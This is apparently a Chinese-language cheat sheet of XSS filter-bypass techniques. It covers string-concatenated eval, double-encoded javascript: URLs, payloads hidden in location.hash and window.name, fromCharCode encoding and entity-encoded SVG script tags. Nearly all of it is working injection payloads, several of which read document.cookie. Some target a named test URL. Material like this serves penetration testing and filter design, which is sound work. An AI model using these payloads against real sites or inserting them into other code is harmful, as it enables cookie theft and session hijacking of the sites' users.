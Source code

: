 ```txt
js里的对象成员方法也可以用数组的形式的表示
简单的说,比如eval()函数就可以用top对象的成员方法来表示
top['ev'+'al'](evalcode)
如果是过滤了函数名()的形式,使用下列方法
/1/[Symbol.replace]('1',alert)
如果是直接过滤了函数名,比如eval,我们可以这样来触发xss
x="onfocus=top["ev"%2b"al"](alert(1))//
使用字符串拼接的方式来构造出eval
```
2. 利用location的url解码特点
```txt
现代浏览器基本支持javascript:code 这种伪协议
而location在跳转的过程中又会自动解码,因此我们可以试图把敏感部分进行二次编码
存放到location部位。
比如我们通过这样的方式来调用eval
x="onfocus=location="javascript:%2565%2576%2561%256c(alert(1))"//
可以看到,成功的通过eval去调用了alert(1)
那你会问,如果括号也被过滤了呢? 继续编码就好了
构造如下的payload
x="onfocus=location="javascript:%2565%2576%2561%256c%2528alert%25281%2529%2529"//
```
3. 利用location.hash来存放
```txt
location.hash是浏览器中用于定位锚的字符串,它是不会向服务端发送的,因此也不会被过滤
所以我们可以构造如下payload来进行绕过
x="onfocus=outerHTML=location.hash//#<img/src="#" onerror=alert(document.cookie)>
这个payload存在url编码
x=" onmouseover=outerHTML=decodeURIComponent(location.hash)//#<img/src="#" onerror=alert(1)>
base64
http://t1m00n.tk/xsstest.php?x=" onmouseover=outerHTML=atob(location.hash.substr(1))//#PGltZy9zcmM9IiMiIG9uZXJyb3I9YWxlcnQoMSk+
```
4. String.fromCharcode() 可以从ascii码中解析出特定的字符串,比如这里过滤document.cookie
```txt
x="onfocus=eval(String.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,10
7,105,101,41))//
```

5. 利用window.name进行跨域传输
```txt
用在location.hash被过滤/长度不够,或者不能使用点号的情况
这里可以使用一个<iframe scr="payload" name="evilcode" />的方式,在window.name中存储代码
其实这种方法也被称为回旋镖
它能够把一个反射XSS升格为类似存储型XSS的效果
这里以绕过对eval的过滤为例
<iframe src="http://127.0.0.1/q.php?x=1%22onfocus=location=window.name//"
name="javascript:eval(alert(document.cookie))" width="100%" height="100%" />
```

6. 利用<svg>标签,<svg>内部的标签和语句遵循的规定是直接继承自xml而不是html
```txt
区别在于,<svg>内部的<script>标签中,可以允许一部分进制/编码后的字符(比如实体编码)
这里绕过对括号的过滤,使用实体编码为例,&#[十进制],&#x[十六进制] 作为例子
使用如下payload
1"><svg><script>alert%26%23x28;1%26%23x29</script></svg>
补充:svg里的<script>,还甚至可以使用<!-- -->来进行整段注释
```
